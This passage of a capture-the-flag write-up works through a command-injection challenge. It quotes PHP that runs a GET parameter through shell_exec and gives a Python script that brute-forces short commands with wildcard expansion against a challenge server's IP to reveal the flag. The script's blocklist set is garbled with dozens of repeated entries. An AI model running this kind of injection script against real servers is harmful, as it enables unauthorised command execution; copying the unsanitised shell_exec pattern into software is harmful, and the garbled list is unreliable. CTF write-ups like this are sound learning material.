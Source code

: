 ```php
}

if(!$valid)
{
  show_source(__FILE__);
  exit;
}

// This will return output only for id and ps. 
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
} else {
  echo "Please enter a valid command";
}

if (False) {
  echo $flag;
}

?>
```

In the printed source code, we notice a couple of things:

- We can provide a shell command via the `start` parameter, and it will be executed.
- The command must not occur (literary) in the list of forbidden commands.
- It must be shorter than 5 characters.

Also, we know from the `require`, that `flag.php` is located in the same directory.

So we obtain a list of two letter commands on our own system:

```bash
ls ${PATH//:/ } | awk '{ print length(), $0 | "sort -n" }' | grep "^2 " | cut -d" " -f2
```

Very bash, very good!

We remove the forbidden commands, and instead of overthinking it, we try if one of the few remaining commands prints the flag with wildcard expansion.

```bash
import requests
import time

with open('./mycommands.txt', 'r') as f:
    commands = set(f.read().splitlines())

forbidden = {'ss','sc','aa','od','pr','pw','pf','ps','pa','pd','pp','po','pc','pz','pq','pt','pu','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','ls','dd','nl','nk','df','wc', 'du'}

commands.difference_update(forbidden)

for command in commands:
    res = requests.get('http://34.159.7.96:32210/?start=' + command + '+*').content
    if b'flag' in res:
        print(res.decode('utf-8'))
    time.sleep(0.2)
```